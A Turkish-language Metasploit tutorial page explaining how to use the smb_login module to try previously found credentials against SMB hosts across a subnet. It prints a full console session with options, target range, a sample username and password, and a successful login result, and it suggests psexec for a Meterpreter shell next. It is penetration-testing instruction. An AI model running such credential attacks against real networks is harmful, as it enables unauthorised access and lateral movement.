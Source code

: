 ```yaml
---
draft: false
title: MSF İçinde SMB Login Kontrolü
linkTitle: SMB Login Kontrolü
weight: 170
translationKey: smb-login-check-in-msf
date: 2017-05-18T13:02:00+03:00
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))
description: Bulduğunuz kullanıcı adı ve parolayı SMB servisinde denemek isteyebilirsiniz.
url: /tr/msf-icinde-smb-login-kontrolu/
featured_image: /images/metasploit.jpg
categories:
    - Metasploit Framework
tags:
    - cybersecurity
    - metasploit framework
keywords:
    - smb
---
```

Önceki yazılarımızda “Bilgi Toplama” modüllerinden bir kısmını gördük. IP ve Port tarama ile birlikte servislerin bulunmadı konularını ele aldık. Bir sonraki aşama “Zafiyet Taraması” olarak adlandırılır. Pentest aşamalarından “Bilgi Toplama” işlemleri ne kadar iyi ve sağlıklı yapılırsa, sonraki aşamalarda verim elde etmeniz de o kadar mümkün olacaktır.

Yaptığınız taramalarda, bir şekilde kullanıcı adı ve parola bulduğunuzu düşünüyorsunuz. Bu kullanıcı adı ve parolanın başka hangi servislerde kullanıldığını denemek isteyebilirsiniz. Bu noktada denenebilecek en mantıklı servis `SMB` olarak adlandırılan ağ üzerinde dosya paylaşım servisidir.

Aşağıdaki örnekte, `smb_login` modülü kullanılmakta ve önceden bulunan bir kullanıcı adı ve parola denenmektedir. Bu tarama türünde, hedef bilgisayar Windows ise dikkatli olmalısınız çünkü başarısız her deneme, sistem yöneticisine ikaz olarak iletilir. `smb_login` taramanın çok gürültü çıkarttığını bilmelisiniz.

Yaptığınız `smb_login` taramasında başarılı bir oturum açma gerçekleşirse, devamında `windows/smb/psexec` modülünü kullanarak `Meterpreter` shell açma denenebilir.

```bash
msf > use auxiliary/scanner/smb/smb_login
msf auxiliary(smb_login) > show options

Module options (auxiliary/scanner/smb/smb_login):

   Name              Current Setting  Required  Description
   ----              ---------------  --------  -----------
   BLANK_PASSWORDS   true             no        Try blank passwords for **all users
   BRUTEFORCE_SPEED  5                yes       How fast to bruteforce, from 0 to 5
   PASS_FILE                          no        File containing passwords, one per line
   PRESERVE_DOMAINS  true             no        Respect a username that contains a domain name.
   RHOSTS                             yes       The target address range or CIDR identifier
   RPORT             445              yes       Set the SMB service port
   SMBDomain         WORKGROUP        no        SMB Domain
   SMBPass                            no        SMB Password
   SMBUser                            no        SMB Username
   STOP_ON_SUCCESS   false            yes       Stop guessing when a credential works for **a host
   THREADS           1                yes       The number of concurrent threads
   USERPASS_FILE                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      true             no        Try the username as the password for **all users
   USER_FILE                          no        File containing usernames, one per line
   VERBOSE           true             yes       Whether to print output for **all attempts

msf auxiliary(smb_login) > set RHOSTS 192.168.1.0/24
RHOSTS => 192.168.1.0/24
msf auxiliary(smb_login) > set SMBUser victim
SMBUser => victim
msf auxiliary(smb_login) > set SMBPass s3cr3t
SMBPass => s3cr3t
msf auxiliary(smb_login) > set THREADS 50
THREADS => 50
msf auxiliary(smb_login) > run

> 192.168.1.100 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.111 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.114 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.125 - FAILED 0xc000006d - STATUS_LOGON_FAILURE
> 192.168.1.116 - SUCCESSFUL LOGIN (Unix)
> Auxiliary module execution completed

msf auxiliary(smb_login) >
```

Örnek çıktıda görüldüğü gibi, `192.168.1.116` IP adresinde başarılı bir oturum açma işlemi gerçekleşmiştir.
